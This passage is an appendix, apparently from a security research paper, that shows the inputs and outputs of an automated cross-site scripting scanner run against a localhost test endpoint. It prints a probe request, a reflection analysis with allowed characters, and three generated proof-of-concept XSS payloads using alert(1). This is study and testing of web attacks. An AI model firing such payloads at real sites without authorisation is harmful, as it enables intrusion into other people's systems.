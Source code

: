The Context Module injects a probe marker and records whether the marker is reflected.

\begin{lstlisting}[style=appendixcode,caption={Probe request format}]
GET http://localhost:9090/reflected/body?q=rs0xa1b2c3d4
\end{lstlisting}

\begin{lstlisting}[style=appendixcode,caption={Context Module output}]
{
  "endpoint": "http://localhost:9090/reflected/body?q=test",
  "params": [
    {
      "name": "q",
      "reflects": true,
      "context": "html_body",
      "context_confidence": 0.97,
      "reflection_position": "html_body",
      "probe_marker": "rs0xa1b2c3d4",
      "probe_method": "GET",
      "allowed_chars": ["<", ">", "\"", "'", "/", "\\", "(", ")", "{", "}", ";", "=", "`", "&", "|"]
    }
  ]
}
\end{lstlisting}

\section*{B.8 Payload Generation Input and Output}

The context result is sent to the Payload Generation Module.

\begin{lstlisting}[style=appendixcode,caption={Payload Generation Module input}]
POST http://localhost:5002/generate

{
  "endpoint_url": "http://localhost:9090/reflected/body",
  "context": "html_body",
  "params": {
    "q": {
      "reflects": true,
      "allowed_chars": ["<", ">", "\"", "'", "/", "\\", "(", ")", "{", "}", ";", "=", "`", "&", "|"]
    }
  },
  "max_payloads": 50,
  "waf_bypass": false
}
\end{lstlisting}

The module returns ranked, context-matched payloads.

\begin{lstlisting}[style=appendixcode,caption={Payload Generation Module output}]
{
  "payloads": [
    {
      "payload": "<img src=x onerror=alert(1)>",
      "target_param": "q",
      "confidence": 0.89,
      "technique": "original",
      "severity": "medium"
    },
    {
      "payload": "<svg onload=alert(1)>",
      "target_param": "q",
      "confidence": 0.87,
      "technique": "original",
      "severity": "medium"
    },
    {
      "payload": "<script>alert(1)</script>",
      "target_param": "q",
      "confidence": 0.85,
      "technique": "original",
      "severity": "medium"
    }
  ]
}
\end{lstlisting}

